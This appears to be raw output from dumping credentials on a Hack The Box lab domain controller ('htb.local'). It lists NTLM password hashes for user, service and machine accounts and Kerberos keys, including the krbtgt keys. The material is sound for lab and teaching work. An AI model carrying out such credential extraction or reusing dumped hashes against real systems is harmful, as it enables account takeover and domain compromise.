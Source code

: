 ```aaa
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
Baudy:7601:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:79772f4d18f3f1394c384d189b2643b6:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
```